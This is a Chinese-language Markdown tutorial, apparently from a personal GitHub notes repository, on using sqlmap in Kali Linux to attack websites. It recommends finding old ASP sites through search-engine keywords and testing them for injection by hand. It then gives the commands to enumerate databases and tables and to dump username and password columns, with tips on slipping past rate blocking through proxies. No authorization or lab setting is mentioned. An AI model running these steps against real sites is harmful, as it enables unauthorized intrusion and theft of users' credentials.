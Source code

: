 # kali使用SQLmap对网站进行渗透
sqlmap是一个自动化sql注入工具，通过python开发，主要功能是扫描，可以通过扫描到的注入漏洞进行数据表破解。<br>
下面针对一些asp站点进行测试(asp站点一般都是比较老的站点网站，可以搜索关键字公司 input:asp?id=查找到一系列asp站点)<br>

<b>补充说明：现在很多的站点基本是没有注入漏洞了，sqlmap对于很多站点已经失效，所以在注入前最好先对目标进行测试，通过在站点后面加上'，或者加上and 1=1和and 1=2来检测是否会被后台检测到sql注入</b>

### 检测是否有注入点
```
sqlmap -u url
```
如果存在注入点，那么就会提示数据库类型的信息，如下：<br>
![accessSQL](E:\git\mygit\Note\img\accessSQL.PNG)<br>

分析：<br>
注入方式为GET，Type和Title信息是注入类型，server是Windows 2008 R2 or 7，web应用程序技术是 ASP.NET,Microsoft IIS 7.5, ASP，数据库是Access<br>

在命令执行过程中，可能会出现选择项，如果想跳过，可以在前面的命令末尾加入"--batch"参数(--batch 不询问用户输入，使用所有默认配置)<br>

### 获取所有的数据库
获取数据库名
```
sqlmap -u url --dbs
```
获取数据库表名（建议忽略上面的那些命令直接用这个方法查出数据表）
```
sqlmap -u url --tables
```
<b>由于asp站点都是暴力随机破解的，所以速度会慢</b>

### 获取数据表列字段
上面命令获取的数据表内容很多，如果想相依获取某一个列字段
```
sqlmap -u url -T columnsname --columns
```

### 获取列数据
```
sqlmap -u url -T columnsname -C "username,password"  --dump
```
-C:指定字段<br>
-dump:导出结果<br>
#### 筛选
筛选上面命令得出的结果：<br>
```
sqlmap -u url -T columnsname -C "username,password" --start 1 --stop 5 --dump
```
--start number:开始行<br>
--stop number:结束行<br>

注意，在进行破解的时候可能会遇到重连的情况<br>

### 错误解决
如果出现了<br>
`[WARNING] if the problem persists please check that the provided target URL is valid. In case that it is, you can try to rerun with the switch '--random-agent' turned on and/or proxy switches ('--ignore-proxy', '--proxy',...)`
<br>
的字样,那么说明是因为频繁访问被拒绝链接了，可以通过代理解决<br>

如果出现：<br>
```
[CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp'). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could retry with an option '--tamper' (e.g. '--tamper=space2comment')
```
暂时无法找到这个问题的解决<br>

### 更新
```
sqlmap --update
```
如果是更换了阿里源后，sqlmap使用上面方式更新是失败的，此时需要删除掉旧版的，从GitHub下载新版的替代。<br>
```
sudo apt-get remove sqlmap
或
rm -rf /usr/share/sqlmap

git clone https://github.com/sqlmapproject/sqlmap.git
```
替换之后就要使用sqlmap.py替代之前的sqlmap命令<br>

有关sqlmap的更多参数可以参考sqlmap的wiki：<br>

#### 参考:<br>

[英文版参数说明](https://github.com/sqlmapproject/sqlmap/wiki/Usage)<br>

还有本文件同目录下有一个中文版参数说明的txt文件和一份用户手册，可供参考<br>

[SQLMap用户手册【超详细】](https://www.cnblogs.com/hongfei/p/3872156.html)<br>